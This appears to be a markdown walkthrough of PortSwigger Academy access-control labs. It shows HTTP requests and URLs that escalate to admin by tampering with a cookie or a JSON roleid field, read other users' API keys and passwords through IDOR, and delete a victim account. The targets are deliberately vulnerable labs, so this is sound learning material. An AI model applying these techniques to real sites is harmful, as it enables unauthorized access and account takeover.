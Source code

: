 # Access control vulnerabilities
- Author: [Mateusz Głuchowski](https://github.com/hue1337)
- Site: [PortSwigger Academy](https://portswigger.net/web-security/)

## Lab: Unprotected admin functionality
1. Find `robots.txt`
    ```
    User-agent: *
    Disallow: /administrator-panel
    ```
2. Access administrator panel and remove carlos.

## Lab: Unprotected admin functionality with unpredictable URLAPPRENTICE
1. Inspect the source of the website
    ```js
    if (isAdmin) {
    var topLinksTag = document.getElementsByClassName("top-links")[0];
    var adminPanelTag = document.createElement('a');
    adminPanelTag.setAttribute('href', '/admin-5157fg');
    adminPanelTag.innerText = 'Admin panel';
    topLinksTag.append(adminPanelTag);
    var pTag = document.createElement('p');
    pTag.innerText = '|';
    topLinksTag.appendChild(pTag);
    }
    ```
2. Access administrator panel and remove carlos.

## Lab: User role controlled by request parameter
1. Log in with `wiener:peter` credentials.
2. After looking into cookies we can see that `Admin` value is set to false. After changing it we are now able to access admin panel.
    ```
    GET /admin HTTP/2
    Host: 0a5a009403dbd0a9804949a9004700bc.web-security-academy.net
    Cookie: Admin=true; session=Jv3utCd0N3EbkNaneBKcWc2ffZXCz8YU
    Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
    ```
3. During traffic interception and constantly changing `Admin` value to true we can finally send the carlos account delete request:
    ```
    GET /admin/delete?username=carlos HTTP/2
    Host: 0a5a009403dbd0a9804949a9004700bc.web-security-academy.net
    Cookie: Admin=true; session=Jv3utCd0N3EbkNaneBKcWc2ffZXCz8YU
    ```

## Lab: User role can be modified in user profile
1. After inspecting different elements it appeared that we can add `roleid` to the json body during email submission. 
    ```json
    {
        "email":"wiener@normaln-user.net",
        "roleid":2
    }
    ```

2. After submitting new email out account's roleid has changed and we can delete carlos account.

## Lab: User ID controlled by request parameter
1. Log into the acc `wiener:peter`
2. Change the `id` in the url:
    ```
    https://0a3e003904eb84ac81aa3929008e006b.web-security-academy.net/my-account?id=carlos
    ```
3. Obtain `carlos` API key.

## Lab: User ID controlled by request parameter, with unpredictable user IDs
1. Log into the acc `wiener:peter`
2. To enumerate `carlos` API key we need his `userid`
3. Looking around the website we find his profile. (Thanks to the post he posted).
    ```
    ef89e7e5-2368-4916-a926-95e5647b2a97
    ```
4. Next step is to copy his userid from the url and paste int o `my-account` url:
    ```
    https://0a31005303a5159887baad2c0098005c.web-security-academy.net/my-account?id=ef89e7e5-2368-4916-a926-95e5647b2a97
    ```

5. Submit the answer.

## Lab: User ID controlled by request parameter with data leakage in redirect
1. Log in using `wiener:peter` credentials.
2. Change the username in body request to `carlos`.
3. Inspect the response and enjoy the anwer.
    ```html
    HTTP/2 302 Found
    Location: /login
    Content-Type: text/html; charset=utf-8
    Cache-Control: no-cache
    X-Frame-Options: SAMEORIGIN
    Content-Length: 3655
    ...
                        <h1>My Account</h1>
                        <div id=account-content>
                            <p>Your username is: carlos</p>
                            <div>Your API Key is: imKOFZdBKUxFJCdzMkEVJFErefVrLZr8</div><br/>
    ...
    </html>

    ```
## Lab: User ID controlled by request parameter with password disclosure
1. Change `id` to administrator:
    ```
    https://0a7d0023036efed682cd748c00a00004.web-security-academy.net/my-account?id=administrator
    ```

2. Check `value` in the password field.
3. Log in as the `administrator`.
Delete carlos's account

## Lab: Insecure direct object references
